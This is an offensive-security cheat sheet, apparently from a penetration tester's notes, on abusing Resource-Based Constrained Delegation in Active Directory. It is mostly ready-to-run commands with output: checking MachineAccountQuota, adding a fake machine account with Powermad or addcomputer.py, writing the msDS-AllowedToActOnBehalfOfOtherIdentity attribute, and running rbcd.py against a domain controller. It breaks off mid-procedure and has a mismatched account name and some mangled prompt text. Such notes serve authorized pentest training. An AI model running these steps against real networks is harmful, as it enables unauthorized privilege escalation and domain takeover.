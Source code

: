 ### RCBD (Resource-Based Constrained Delegation)

You can abuse RBCD when you can edit the attribute : _**msDS-AllowedToActOnBehalfOfOtherIdentity**_

* An example of exploitation is when you got GenericAll or GenericWrite ACL on a Computer.

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
https://pentestbook.six2dez.com/post-exploitation/windows/ad/kerberos-attacks#info
https://github.com/tothi/rbcd-attack

############ PREREQUISITES
- Domain account with write access to the target computer
- Permission to create new computer accounts (this is usually default, see if MachineAccountQuota > 0)
nxc ldap TARGET_COMPUTER -u user -p password -M maq
ldapsearch -x -H ldap://TARGET_IP -D 'user@dom.com' -w '' -b "DC=DOM,DC=COM" | grep -i "ms-DS-MachineAccountQuota"
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local | Select ms-DS-MachineAccountQuota
- DC to be running at least Windows 2012
- The target computer WS01 object must not have the attribute msds-allowedtoactonbehalfofotheridentity set:
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
ldapsearch -x -H ldap://TARGET_IP -D 'user@dom.com' -w '' -b "DC=DOM,DC=COM" | grep -i msds-allowedtoactonbehalfofotheridentity
- LDAP (389/tcp) and SAMR (445/tcp) (or LDAPS (636/tcp)) Kerberos (88/tcp) access to the DC.

# ADD COMPUTER ACCOUNT (PS)
custom_prompt> . .\Powermad.ps1
custom_prompt> echo $error
custom_prompt> New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
[+] Machine account attackersystem added
custom_prompt> $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
custom_prompt> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)custom_prompt> custom_prompt> 
custom_prompt> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}



# CHECK MAQ
nxc ldap $DC_IP -u $USER -p $PASS -M maq
...
MAQ         172.16.2.6      389    DC02             [*] Getting the MachineAccountQuota
MAQ         172.16.2.6      389    DC02             MachineAccountQuota: 10

# FIRST, WE ADD A FAKE COMPUTER
└─$ addcomputer.py -computer-name 'attackersystem$' -computer-pass 'Summer2018!' 'dom.com'/'joe' -no-pass                                                                                                                                                                      
[*] Successfully added machine account attackersystem$ with password Summer2018!.    

# NOW WE PERFORM RBCD TO ASSIGN DELEGATION RIGHTS ON attackersystem$ over DC02$
# IMPORTANT: USER HAS DONOTREQPWD SO 'dom.com/user:' -k and then input empty password, do not use a ticket or .ccache since we can provide empty password this way
└─$ rbcd.py -delegate-from 'attackersystem2$' -delegate-to 'DC02$' -action 'write' 'dom.com/user:' -k -dc-ip $DC_IP                                                                         
```